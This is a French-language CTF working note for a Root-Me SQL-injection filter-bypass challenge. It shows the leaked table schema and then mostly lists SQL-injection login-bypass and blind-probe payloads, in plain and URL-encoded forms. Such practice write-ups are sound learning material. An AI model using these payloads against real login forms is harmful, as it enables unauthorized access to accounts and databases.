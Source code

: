 ```yaml
---
categorie: web-server
tags:
  - rootme
  - "#informatique/cyber"
lien: https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Contournement-de-filtres
---
```

# But


se connecter en admin avec une injection SQL

# Fourni

une login page avec une autre page qui nous annonce qu'un compte avec pour user "admin" et id "1" existe
on sait aussi qu'il faudra faire un contournement de filtre

Je vois dans le code source : 

```
<!--
// CREATE TABLE IF NOT EXISTS `membres` (
//   `id` int(1) NOT NULL AUTO_INCREMENT,
//   `username` VARCHAR(5) NOT NULL,
//   `pass` VARCHAR(20) NOT NULL,
//   `email` VARCHAR( 50 ) NOT NULL,
//   PRIMARY KEY (`id`)
// ) ENGINE=MyISAM  DEFAULT CHARSET=latin1 AUTO_INCREMENT=2 ;
-->
```

je sais donc que c'est une bd "MyISAM" et j'ai aussi le nom de champs
# Méthode de résolution

il faudrait que je me mette à utiliser sqlmap et les autres outils d'injection SQL

[root me a une fiche d'aide pour cela ](https://www.root-me.org/Outil-Sqlmap)


Payload testé pour login
```
' OR 1=1--
' OR '1'='1'--
' OR '1'='1'#
' OR 1=1#
' OR 1=1/*

' OR 'a'='a'--
' OR 'a'='a'#
' OR 'a'='a'/*
' OR 1=2 UNION SELECT 1,2,3--
' OR EXISTS(SELECT 1 FROM members)--

' OR username LIKE 'adm%'--
' OR ASCII(SUBSTRING((SELECT database()),1,1))>64--
' OR LENGTH((SELECT table_name FROM information_schema.tables LIMIT 1))>1--

admin'--
admin'#
admin'/*
```

Payloads testés pour le pass
```
' OR 1=1--
' OR '1'='1'--
' OR '1'='1'#
' OR 1=1#
' OR 1=1/*

1234' OR 'a'='a'--
1234' OR '1'='1'--
1234' OR 1=1#
1234' OR 1=2 UNION SELECT 1,2,3--

' OR (SELECT COUNT(*) FROM information_schema.tables)>0--
' OR (SELECT LENGTH(username) FROM members LIMIT 1)=5--
' OR password LIKE 'pa%'--
```

Il faut ensuite tester avec des caractères url encodés, au cas ou il y aurai des filtres

```
|   |
|---|
|%27%20OR%201%3D1--|
|%27%20OR%20%271%27%3D%271%27--|
|%27%20OR%20%271%27%3D%271%27%23|
|%27%20OR%201%3D1%23|
|%27%20OR%201%3D1%2F%2A|
||
|%27%20OR%20%27a%27%3D%27a%27--|
|%27%20OR%20%27a%27%3D%27a%27%23|
|%27%20OR%20%27a%27%3D%27a%27%2F%2A|
|%27%20OR%201%3D2%20UNION%20SELECT%201%2C2%2C3--|
|%27%20OR%20EXISTS%28SELECT%201%20FROM%20members%29--|
||
|%27%20OR%20username%20LIKE%20%27adm%25%27--|
|%27%20OR%20ASCII%28SUBSTRING%28%28SELECT%20database%28%29%29%2C1%2C1%29%29%3E64--|
|%27%20OR%20LENGTH%28%28SELECT%20table_name%20FROM%20information_schema.tables%20LIMIT%201%29%29%3E1--|
... (20lignes restantes)